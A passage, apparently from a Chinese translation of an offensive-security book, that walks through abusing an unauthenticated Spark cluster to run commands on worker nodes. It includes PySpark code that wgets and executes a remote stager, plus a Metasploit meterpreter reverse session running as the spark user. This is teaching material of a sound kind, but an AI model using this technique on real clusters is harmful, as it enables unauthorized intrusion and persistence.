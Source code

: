 清单 12-8：在 Spark 集群上执行代码的完整应用框架

与其定义一个新的命名函数并通过 `map` 迭代调用（就像我们在清单 12-5 中做的那样），我们实例化一个带有前缀 `lambda` 的匿名函数，它接受一个输入参数（每个被迭代的元素）1。当工作节点循环遍历我们的 RDD 以应用 `map` 转换时，它会遇到我们的 `lambda` 函数，该函数指示它运行 `hostname` 命令。我们来试试：

```
$ **python test_app.py**
19/12/20 18:48:46 WARN NativeCodeLoader: Unable to load native-hadoop library for your
platform... using builtin-java classes where applicable

Using Spark's default log4j profile: org/apache/spark/log4j-defaults.properties

Setting default log level to "WARN".
To adjust logging level use sc.setLogLevel(newLevel). For SparkR, use setLogLevel(newLevel).

ip-172-31-29-239
```

就这样！我们与主节点建立了联系。一个干净利落的命令执行，正如承诺的那样，在整个过程中，Spark 没有一次要求我们提供凭证。

如果我们重新启动程序，我们的任务可能会被调度到另一台工作节点。这是预期的，事实上，它正是分布式计算的核心。所有节点是相同的，具有相同的配置（IAM 角色、网络过滤器等），但它们的生命周期不一定完全相同。一台工作节点可能会接收到一个任务，该任务将数据库凭证写入磁盘，而另一台则会对错误消息进行排序。

我们可以通过构建具有*n*分区的 RDD，强制 Spark 将我们的工作负载分配到*n*台机器上：

```
partList = sc.parallelize(range(0, 10), 10)
```

然而，我们无法选择哪些节点将接收负载。是时候在一些工作节点上设置永久驻留了。

### Spark 接管

为了保持我们的恶意应用继续运行，我们希望谨慎地指示 Linux 在自己的进程组中生成它，以便忽略 JVM 在任务完成时发送的中断信号。我们还希望驱动程序等待几秒钟，直到我们的应用完成与攻击基础设施的稳定连接。我们需要在应用程序中添加以下几行：

```
`--snip--`
finalList = partList.map(
    lambda x: subprocess.Popen(
        "wget https://gretsch-spark-eu.s3.amazonaws.com/stager &&  chmod +x         ./stager && ./stager &",
        shell=True,
        preexec_fn=os.setpgrp,
    )
)
finalList.collect()
time.sleep(10)

$ **python reverse_app.py**
`--snip--`
```

在我们的攻击基础设施上，我们打开 Metasploit 并等待应用程序回拨到主机：

```
[*] https://0.0.0.0:443 handling request from...
[*] https://0.0.0.0:443 handling request from...
msf exploit(multi/handler) > **sessions -i 7**
[*] Starting interaction with 7...

meterpreter > **execute -i -f id**
Process 4638 created.
Channel 1 created.

1 uid=1000(spark) gid=1000(spark)
groups=1000(spark),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),
110(lxd),115(lpadmin),116(sambashare)...
```
